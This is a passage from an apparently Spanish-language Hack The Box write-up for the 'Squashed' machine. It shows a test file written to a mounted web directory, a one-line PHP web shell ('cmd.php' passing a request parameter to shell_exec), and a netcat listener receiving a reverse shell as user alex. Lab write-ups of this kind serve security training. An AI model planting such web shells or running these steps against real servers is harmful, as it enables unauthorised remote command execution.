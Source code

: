 ```bash
┌─[temp@parrot]─[/mnt/web_server]
└──╼ $nano hola.txt
No se puede crear el directorio «/home/temp/.local/share/nano/»: No existe el fichero o el directorio
Se necesita para guardar/cargar el histórico de búsquedas o las posiciones del cursor.

┌─[temp@parrot]─[/mnt/web_server]
└──╼ $ls
css  hola.txt  images  index.html  js
┌─[temp@parrot]─[/mnt/web_server]
└──╼ $cat hola.txt 
soy vulnerable
┌─[temp@parrot]─[/mnt/web_server]
└──╼ $
```

Aqui lo vemos reflejado

![](/assets/images/htb-writeup-squashed/Web3.png)

Ahora si vamos a crear el `cmd.php`

```bash
┌─[temp@parrot]─[/mnt/web_server]
└──╼ $cat cmd.php 
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

![](/assets/images/htb-writeup-squashed/Web4.png)

Ahora vamos a ganar accesso

![](/assets/images/htb-writeup-squashed/Web5.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.191] 52500
bash: cannot set terminal process group (1084): Inappropriate ioctl for device
bash: no job control in this shell
alex@squashed:/var/www/html$ whoami
whoami
alex
alex@squashed:/var/www/html$ id
id
uid=2017(alex) gid=2017(alex) groups=2017(alex)
alex@squashed:/var/www/html$ 
```
